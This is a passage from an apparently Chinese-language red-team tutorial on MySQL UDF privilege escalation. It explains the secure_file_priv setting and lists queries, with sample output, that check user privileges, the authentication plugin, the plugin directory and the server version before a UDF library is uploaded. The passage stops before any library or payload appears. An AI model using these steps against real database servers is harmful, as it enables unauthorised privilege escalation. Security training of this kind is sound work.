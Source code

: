    

   这个参数（https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv）在MySQL数据库的安装目录的 my.ini 文件中配置，也可以作为启动参数。

   > secure_file_priv是用来限制load dumpfile、into outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限。
   >
   > 当 secure_file_priv 的值为 null ，表示限制 mysqld 不允许导入|导出，此时无法提权 当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权 当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权

2. 查看是否高权限

   ```
   mysql> select * from mysql.user where user = substring_index(user(), '@', 1) ;
   ```

   

3. 查看plugin的值

   ```
   mysql> select host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
   +-----------+------+-----------------------+
   | host      | user | plugin                |
   +-----------+------+-----------------------+
   | localhost | root | mysql_native_password |
   +-----------+------+-----------------------+
   1 row in set (0.02 sec)
   ```

   

   plugin值表示mysql用户的认证方式。当 plugin 的值为空时不可提权，为 `mysql_native_password` 时可通过账户连接提权。默认为`mysql_native_password`。另外，mysql用户还需对此plugin目录具有写权限。

#### [上传udf库文件](https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux环境下的MySQL UDF提权.md#上传udf库文件)

1. 获取plugin路径

```
mysql> show variables like "%plugin%";
+-------------------------------+--------------------------------------------+
| Variable_name                 | Value                                      |
+-------------------------------+--------------------------------------------+
| default_authentication_plugin | mysql_native_password                      |
| plugin_dir                    | /usr/local/Cellar/mysql/5.7.22/lib/plugin/ |
+-------------------------------+--------------------------------------------+
2 rows in set (0.02 sec)
```



1. 获取服务器版本信息

```
mysql> show variables like 'version_compile_%';
+-------------------------+----------+
| Variable_name           | Value    |
+-------------------------+----------+
| version_compile_machine | x86_64   |
| version_compile_os      | osx10.13 |
+-------------------------+----------+
2 rows in set (0.01 sec)
```

